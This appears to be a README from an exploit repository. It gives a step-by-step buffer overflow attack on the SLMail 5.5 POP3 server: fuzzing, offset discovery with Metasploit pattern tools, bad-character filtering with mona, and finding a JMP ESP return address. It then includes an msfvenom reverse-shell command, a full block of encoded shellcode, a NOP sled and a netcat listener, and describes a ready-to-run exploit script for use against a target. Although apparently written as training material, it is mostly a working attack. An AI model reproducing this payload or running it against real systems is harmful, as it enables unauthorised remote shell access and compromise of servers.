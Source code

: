 # SLMail Buffer Overflow Exploit

This repo contains a fuzzer, bad char generator and an exploit for Seattle Lab Mail 5.5 (SLMail) POP3 server which is vulnerable to a buffer overflow.

This can be simply exploited by executing steps 15-17. However if you
are interested in my complete exploitation process you can find all the steps below.

I included 2 exploit scripts:

-   Exploit_final.py: simply change the IP insert your payload, standup a Netcat
    listener and run against the target.

-   Exploit_blank.py: exploit template if you want to follow all the steps from
    the beginning.

## Exploit steps

#### Setup

1. Install SLMail 5.5 with default settings and immunity debugger with mona on a
   windows 7 32 bit machine.

#### Finding the offset

2. Edit fuzzer.py entering the IP address your SLMail instance. Run fuzzer.py.
   When the program crashes the last amount of bytes sent is the estimated
   offset.

```
chmod +x fuzzer.py exploit_blank.py exploit_final.py bad_chars.py
./fuzzer.py
```

3. Run SLMail and start the POP3 service in the control tab. Open Immunity
   debugger and attach SLMail. Click the play button in Immunity to run the
   program.

4. Use Metasploit's pattern_create to generate a pattern 400 bytes longer than
   the estimated offset.

```
/usr/share/metasploit-framework/tools/pattern_create.rb -l <estimated offset + 400>
```

3. Copy and paste the pattern into the payload variable in exploit_blank.py.
   Save and run the exploit.

4. In Immunity the program should have crashed with an access violation. Copy
   the Value of the EIP Register.

5. Use Metasploit's pattern_offset with the EIP value to find the exact
   offset.

```
/usr/share/metasploit-framework/tools/pattern_offset.rb -q <EIP Value>
```

6. Update the offset value in exploit_blank.py with the exact offset value and
   set the retn value to "BBBB". This will fill the buffer with A characters and
   overwrite EIP with 4 B characters which we will confirm in step 8.

7. Close Immunity and SLMail and reopen both, start the POP3 server, attach in
   Immunity and run.

8. Run exploit_blank.py. The SLMail should have crashed with an Access
   Violation. The EIP register should contain 42424242 which is HEX for 4 B
   characters. This confirms we now control the Instruction Pointer (EIP).

#### Finding bad characters

9. Do step 7 again then generate a string of bad characters using bad_chars.py.
   Copy and paste then into the payload variable in exploit_blank.py replacing
   the pattern.

```
./bad_chars.py

```

10. Save and run the exploit_blank.py. In Immunity, using mona, create a byte
    array file omitting the null byte /x00 instruction. Then use mona to compare the byte
    array to the contents of ESP. This will list the difference between our byte
    array and the contents of ESP.

```
./exploit_blank.py
!mona config -set workingfolder c:\mona\slmail
!mona bytearray -b "\x00"
!mona compare -f C:\mona\slmail\bytearray.bin -a <ESP address>
```

11. Note down the next bad character after the null byte \x00 and remove it from
    the payload in exploit_blank.py. Repeat steps 10 and 11 adding one bad
    character at a time to the mona byte array whilst removing it from the
    payload until the mona compare command returns "Unmodified". You should now
    have a list of bad characters which we will omit from our final
    payload.

#### Find a JMP instruction

12. We need to find a JMP instruction we can use to jump back into the stack
    which is where our final payload will be. This can be done using the a
    couple of mona commands in Immunity. The mona modules command will list all
    modules such as dlls which SLMail has currently loaded into memory. We need
    to pick one with no protections such as Rebase, SafeSEH, ASLR and NXcompat
    enabled. Pick one and note down the name of the dll.

```
!mona modules
```

13. Use mona to find a JMP instruction in the chosen dll. Specify the bad
    characters we found at the end of the command using the -cpb switch.

```
!mona jmp -r esp -cpb "<bad characters>"
```

14. Note down the address of the first JMP instruction found and put it in the
    retn variable in exploit_blank.py. Please note that we need to convert this
    to little endian format as we are dealing with a 32 bit system/application. This is
    shown below.

```
# 5F4A358F
retn = "\x8f\x35\x4a\x5f"
```

### Generate payload and exploit

15. Generate shell code using msfvemon with your IP address, chosen port and
    the bad characters to omit. Insert the shell code into the payload variable
    in exploit_blank.py.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP>  LPORT=<PORT> -b "<bad characters>" -f c


payload = ("\xb8\x96\x65\x2e\xe6\xd9\xc1\xd9\x74\x24\xf4\x5e\x33\xc9\xb1"
"\x52\x83\xee\xfc\x31\x46\x0e\x03\xd0\x6b\xcc\x13\x20\x9b\x92"
"\xdc\xd8\x5c\xf3\x55\x3d\x6d\x33\x01\x36\xde\x83\x41\x1a\xd3"
"\x68\x07\x8e\x60\x1c\x80\xa1\xc1\xab\xf6\x8c\xd2\x80\xcb\x8f"
"\x50\xdb\x1f\x6f\x68\x14\x52\x6e\xad\x49\x9f\x22\x66\x05\x32"
"\xd2\x03\x53\x8f\x59\x5f\x75\x97\xbe\x28\x74\xb6\x11\x22\x2f"
"\x18\x90\xe7\x5b\x11\x8a\xe4\x66\xeb\x21\xde\x1d\xea\xe3\x2e"
"\xdd\x41\xca\x9e\x2c\x9b\x0b\x18\xcf\xee\x65\x5a\x72\xe9\xb2"
"\x20\xa8\x7c\x20\x82\x3b\x26\x8c\x32\xef\xb1\x47\x38\x44\xb5"
"\x0f\x5d\x5b\x1a\x24\x59\xd0\x9d\xea\xeb\xa2\xb9\x2e\xb7\x71"
"\xa3\x77\x1d\xd7\xdc\x67\xfe\x88\x78\xec\x13\xdc\xf0\xaf\x7b"
"\x11\x39\x4f\x7c\x3d\x4a\x3c\x4e\xe2\xe0\xaa\xe2\x6b\x2f\x2d"
"\x04\x46\x97\xa1\xfb\x69\xe8\xe8\x3f\x3d\xb8\x82\x96\x3e\x53"
"\x52\x16\xeb\xf4\x02\xb8\x44\xb5\xf2\x78\x35\x5d\x18\x77\x6a"
"\x7d\x23\x5d\x03\x14\xde\x36\x26\xe2\xa4\x11\x5e\xf6\x24\x9f"
"\x24\x7f\xc2\xf5\x4a\xd6\x5d\x62\xf2\x73\x15\x13\xfb\xa9\x50"
"\x13\x77\x5e\xa5\xda\x70\x2b\xb5\x8b\x70\x66\xe7\x1a\x8e\x5c"
"\x8f\xc1\x1d\x3b\x4f\x8f\x3d\x94\x18\xd8\xf0\xed\xcc\xf4\xab"
"\x47\xf2\x04\x2d\xaf\xb6\xd2\x8e\x2e\x37\x96\xab\x14\x27\x6e"
"\x33\x11\x13\x3e\x62\xcf\xcd\xf8\xdc\xa1\xa7\x52\xb2\x6b\x2f"
"\x22\xf8\xab\x29\x2b\xd5\x5d\xd5\x9a\x80\x1b\xea\x13\x45\xac"
"\x93\x49\xf5\x53\x4e\xca\x05\x1e\xd2\x7b\x8e\xc7\x87\x39\xd3"
"\xf7\x72\x7d\xea\x7b\x76\xfe\x09\x63\xf3\xfb\x56\x23\xe8\x71"
"\xc6\xc6\x0e\x25\xe7\xc2")
```

16. Add 16 No Operation Instructions (\x90) to exploit_blank.py padding
    variable. This is known as a NOP sled. When we jump into the stack using the
    JMP command we overwrote EIP with, as long as we hit any of these NOP
    instructions, EIP will keep incrementing until it hits our payload and
    executes it.

```
padding = "\x90" * 16
```

17. Stand up a netcat listener on the port specified when generating your shell
    code.

```
nc -lvnp <PORT>
```

18. Restart SLMail and run exploit_blank.py. Your netcat listener should have
    caught the reverse shell.

## Summary
When we execute exploit_blank.py or exploit_final.py the following will happen:

* A Connection is established to SLMail POP3 Server on given IP and PORT 110
* Username of test is entered.
* The password entry is used to fill the buffer with A characters
* The buffer is overflown and the return address is overwritten with the address of our JMP instruction.
* the JMP instruction jumps back into the stack hitting our NOP sled.
* The Instruction Pointer slides down the NOP sled (keeps incrementing) until it reaches our shell code.
* Our shell code is executed and we receive a shell.